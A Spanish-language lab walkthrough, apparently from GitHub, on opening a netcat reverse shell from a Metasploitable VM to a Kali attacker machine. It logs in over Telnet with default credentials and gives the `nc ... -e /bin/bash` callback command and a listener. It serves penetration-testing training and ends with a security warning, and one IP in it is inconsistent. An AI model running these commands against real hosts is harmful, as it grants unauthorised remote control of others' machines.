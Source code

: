 # Reverse Shell desde Telnet usando Netcat

Una vez que logramos autenticarnos al servicio Telnet en Metasploitable (por ejemplo, con credenciales por defecto `msfadmin:msfadmin`), podemos usar esta conexión para establecer una **shell inversa (reverse shell)** y así obtener acceso remoto desde Kali Linux.

##  Objetivo
Obtener una shell desde Metasploitable hacia Kali utilizando Telnet y `netcat`, lo cual permite control total de la máquina víctima desde nuestra máquina atacante.

## 1. Escuchar en Kali Linux

En  Kali (IP: `192.168.171.132`), abrir un terminal y ejecutae el siguiente comando para que escuche en el puerto 4444:

```bash
nc -nlvp 4444
```

![image](https://github.com/user-attachments/assets/73722b5c-f29b-4041-9068-ef5ac6227b09)

## 2. Conectarse por Telnet a Metasploitable

Usando: 

```bash
telnet 192.168.222.131 23
```

Ingresa las credenciales cuando se soliciten:

Usuario: msfadmin
Contraseña: msfadmin

![image](https://github.com/user-attachments/assets/209c8336-3ef0-4883-be47-939486ca4121)

## 3. Ejecutar Reverse Shell desde Metasploitable

Una vez dentro del sistema remoto, ejecutar el siguiente comando desde la terminal del Telnet:

```bash
nc 192.168.171.132 4444 -e /bin/bash
```
Este comando hace que la máquina Metasploitable se conecte de regreso a Kali en el puerto 4444 y le entregue una shell /bin/bash.

![image](https://github.com/user-attachments/assets/fbf4659b-b85e-43cd-970d-0b438c54356a)

## 4. Verificar en Kali

Si todo funciona correctamente, se vera algo como esto en la terminal de Kali:
```bash
listening on [any] 4444 ...
connect to [192.168.171.132] from (UNKNOWN) [192.168.171.133] 49872
```
![image](https://github.com/user-attachments/assets/5c2897ac-aaf0-4292-b215-ccc59a1308ea)

Ahora se podra ejecutar:

```bash
whoami
uname -a
```
![image](https://github.com/user-attachments/assets/98f50d79-5af7-49b1-9ee4-c9be7e5701dd)

## 5. Conclusión

Este método permite escalar el acceso simple por Telnet a una shell interactiva con Netcat, facilitando un control más completo sobre la máquina comprometida.

🛑 Nota de seguridad: Esta técnica demuestra lo peligroso que es tener Telnet habilitado sin medidas de seguridad adecuadas. El uso de -e /bin/bash en Netcat está considerado una vulnerabilidad crítica.
